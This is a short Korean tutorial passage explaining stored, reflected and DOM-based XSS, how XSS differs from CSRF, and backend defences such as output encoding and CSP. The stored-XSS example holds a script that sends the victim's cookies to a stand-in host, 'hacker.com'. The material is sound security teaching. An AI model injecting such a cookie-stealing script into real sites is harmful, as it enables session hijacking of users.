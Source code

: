 ### XSS (Cross-Site Scripting)

**XSS**는 악성 스크립트를 웹 페이지에 삽입하는 공격입니다.

**Stored XSS (저장형):**
```
1. 공격자가 게시판에 악성 스크립트 작성:
   <script>location.href='http://hacker.com?cookie='+document.cookie</script>

2. 피해자가 해당 게시글 조회
3. 스크립트 실행으로 쿠키가 공격자에게 전송
```

**Reflected XSS (반사형):**
```
악성 URL: https://site.com/search?q=<script>alert('XSS')</script>
피해자가 URL 클릭 시 스크립트 실행
```

**DOM-based XSS:**
```javascript
// 취약한 코드
document.getElementById('welcome').innerHTML = 
    "안녕하세요, " + location.hash.substring(1) + "님";

// 악성 URL
https://site.com#<script>alert('XSS')</script>
```

### XSS vs CSRF 차이점

**XSS**: 사용자의 브라우저에서 **악성 스크립트를 실행**시키는 공격
**CSRF**: 사용자가 **의도하지 않은 요청을 전송**하게 만드는 공격

```
XSS 공격 흐름:
공격자 → 악성 스크립트 삽입 → 피해자 브라우저에서 실행

CSRF 공격 흐름:
피해자가 정상 사이트 로그인 → 공격자 사이트 방문 → 공격자 사이트에서 정상 사이트로 요청 전송
```

### XSS 방어 방법

**프론트엔드만으로는 완전한 방어 불가능**

**백엔드 방어:**
- **입력값 검증**: HTML 태그 필터링
- **출력값 인코딩**: <, >, &, " 등을 HTML 엔티티로 변환
- **CSP(Content Security Policy)**: 스크립트 실행 정책 설정